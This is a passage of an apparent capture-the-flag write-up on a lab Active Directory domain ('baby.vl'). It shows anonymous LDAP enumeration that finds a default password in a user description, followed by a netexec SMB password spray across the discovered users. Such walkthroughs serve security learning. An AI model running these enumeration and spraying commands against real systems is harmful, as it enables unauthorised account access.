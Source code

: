 ```bash
...
[+] Domain: BABY
[+] Domain SID: S-1-5-21-1407081343-4001094062-1444647654
[+] Membership: domain member
...
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: ''
OS build: '20348'
...
```

This scan yieled some useful results like the computer name and some information about the system, usually I would try enumerate some more with `ldapsearch`.

``` bash
sylsec$ ldapsearch -LLL -x -H ldap://$ip -b '' -s base '(objectclass=*)'
...
rootDomainNamingContext: DC=baby,DC=vl
ldapServiceName: baby.vl:babydc$@BABY.VL
```

This didn't yield that much information but we can search for the specific domain components (`baby,vl`)

(Only the interesting information)
```bash 
sylsec$ ldapsearch -x -H ldap://$ip -D '' -w '' -b "DC=baby,DC=vl"
...
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to BabyStart123!
...
<other users>
```

Now we've learned that the initial password for the users is `BabyStart123!`, we can save all the found users under users.txt and try the password against all of them with `netexec` (previously `CrackMapExec`).

```bash
sylsec$ netexec smb $ip -u ./users.txt -p ./passwords.txt 
SMB         10.10.83.68     445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
...
SMB         10.10.10.6      445    BABYDC           [-] baby.vl\caroline.robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
...
```
